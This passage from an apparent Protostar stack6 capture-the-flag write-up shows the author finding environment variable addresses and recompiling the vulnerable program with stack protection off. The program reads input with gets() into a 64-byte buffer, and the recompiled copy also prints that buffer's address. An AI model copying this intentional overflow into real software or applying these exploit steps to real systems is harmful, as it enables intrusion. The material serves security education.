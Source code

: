 ```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr FORMATSTRING ./stack6
FORMATSTRING will be at 0xbffff9a5
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr FAV ./stack6
FAV will be at 0xbfffff5a
```

The last thing I needed, was the "here" memory address.  I took the source of stack6.c and compiled it to my home   directory, but with one small change.  I added a printf to show the location of the buffer in memory.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
        char buffer[64];
        unsigned int ret;

        printf("input path please: "); fflush(stdout);

        gets(buffer);

        printf("0x%08x\n", buffer);

        ret = __builtin_return_address(0);

        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }

        printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
        getpath();



}
```

```
user@protostar:~$ gcc -fno-stack-protector -o stackx stack6.c
```

Because of the stack being different because of the folder I was in, I navigated to where the real stack6.c was, and then ran my tests. 

```
user@protostar:~$ cd /opt/protostar/bin/
user@protostar:/opt/protostar/bin$ /home/user/stackx
input path please: A
0xbffff75c
got path A
```
